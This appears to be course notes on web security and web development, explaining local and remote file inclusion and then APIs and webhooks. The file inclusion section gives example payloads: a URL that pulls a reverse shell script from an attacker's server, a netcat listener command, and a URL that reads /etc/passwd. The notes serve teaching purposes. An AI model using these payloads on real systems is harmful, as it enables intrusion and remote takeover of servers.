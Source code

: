 ### Types of File Inclusion
1. **Local File Inclusion (LFI)**:
   - Includes files from the local file system.
   - Example: Including a configuration file from the server.

2. **Remote File Inclusion (RFI)**:
   - Includes files from a remote server.
   - Example: Including an image hosted on another server.

### Why Is File Inclusion Dangerous?
While file inclusion is a useful feature in web development, it can be exploited by malicious actors to gain unauthorized access to sensitive files or even the server itself.

### Demonstrating Remote File Inclusion
1. In the URL of the vulnerable web application, replace the local file path with the path to rev_shell.php hosted on the attacker's server: `http://vulnerable-app.com/index.php?page=http://attacker-server/rev_shell.php`. Once executed, the reverse shell connects back to the attacker, providing remote access.
2. We have already set up a listener to use the reverse shell when established: `nc -nvlp 9999  # Start the listener on port 9999`

### Demonstrating Local File Inclusion
1. The file `/etc/passwd` is a common target to demonstrate LFI.
2. Modify the URL parameter to include /etc/passwd: `http://vulnerable-app.com/index.php?page=/etc/passwd`

## APIs and Webhooks

### What is an API?
API stands for Application Programming Interface. An API allows different software applications to communicate with each other.

#### Key Features of APIs:
- **Interoperability**: APIs enable different systems and software to work together, regardless of the underlying technologies they are built on.
- **Efficiency**: They automate processes that would otherwise require manual intervention, making tasks more efficient.
- **Scalability**: APIs can handle numerous requests simultaneously, supporting scalability in software applications.

#### Types of APIs:
1. **REST (Representational State Transfer)**: Uses standard HTTP methods (GET, POST, PUT, DELETE) and is often preferred for web services because of its simplicity and performance. It typically uses JSON for data exchange.
2. **SOAP (Simple Object Access Protocol)**: A protocol for exchanging structured information in web services. It relies on XML and is known for its strict standards and extensibility.

### What is a Webhook?
A webhook is a method of augmenting or altering the behavior of a web application with custom callbacks. It is a way for an application to provide real-time information to other applications. Webhooks are triggered by events and send data to a specified URL in real-time.
